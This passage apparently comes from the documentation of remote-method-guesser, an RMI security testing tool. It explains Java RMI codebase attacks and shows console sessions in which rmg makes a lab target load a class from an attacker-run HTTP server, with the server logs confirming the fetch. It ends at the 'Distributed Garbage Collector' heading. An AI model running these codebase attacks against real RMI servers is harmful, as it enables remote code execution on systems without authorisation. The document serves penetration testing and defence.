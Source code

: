 *Java RMI* supports a feature called *codebases*, where the client and the server can specify *URLs* during *RMI calls* that
may be used to load unknown classes dynamically. If an *RMI server* accepts a *client specified codebase*, this can lead to
*remote code execution* when the client provides a malicious *Java* class during the *RMI communication*.

The codebase configuration on an *RMI server* can be different for the different components: *Activator*, *DGC*, *Registry* and *Application Level*.
*remote-method-guesser* allows you to test each component individually by using either ``--signature <method>`` (application level),
``--component act`` (activator), ``--component dgc`` (distributed garbage collector) or ``--component reg`` (RMI registry) together with the
``codebase`` action.

*Application Level*:

```console
[qtc@devbox ~]$ rmg codebase 172.17.0.2 9010 ExampleClass http://172.17.0.1:8000 --signature "String login(java.util.HashMap dummy1)" --bound-name legacy-service
[+] Attempting codebase attack on RMI endpoint...
[+] Using class ExampleClass with codebase http://172.17.0.1:8000/ during login call.
[+]
[+] 	Using non primitive argument type java.util.HashMap on position 0
[+] 	Specified method signature is String login(java.util.HashMap dummy1)
[+]
[+] 	Remote class loader attempted to load dummy class 267eaee13b9e46d2ada471016d693b14
[+] 	Codebase attack probably worked :)
[+]
[+] 	If where was no callback, the server did not load the attack class ExampleClass.class.
[+] 	The class is probably known by the server or it was already loaded before.
[+] 	In this case, you should try a different classname.

[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [30/Nov/2021 07:23:39] "GET /ExampleClass.class HTTP/1.1" 200 -
172.17.0.2 - - [30/Nov/2021 07:23:39] "GET /267eaee13b9e46d2ada471016d693b14.class HTTP/1.1" 404 -
```

*RMI Registry*:

```console
[qtc@devbox ~]$ rmg codebase 172.17.0.2 9010 ExampleClass http://172.17.0.1:8000 --component reg
[+] Attempting codebase attack on RMI Registry endpoint...
[+] Using class ExampleClass with codebase http://172.17.0.1:8000/ during lookup call.
[+]
[+] 	Caught ClassCastException during codebase attack.
[+] 	Codebase attack most likely worked :)

[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [30/Nov/2021 07:26:09] "GET /ExampleClass.class HTTP/1.1" 200 -
```

*Distributed Garbage Collector*:
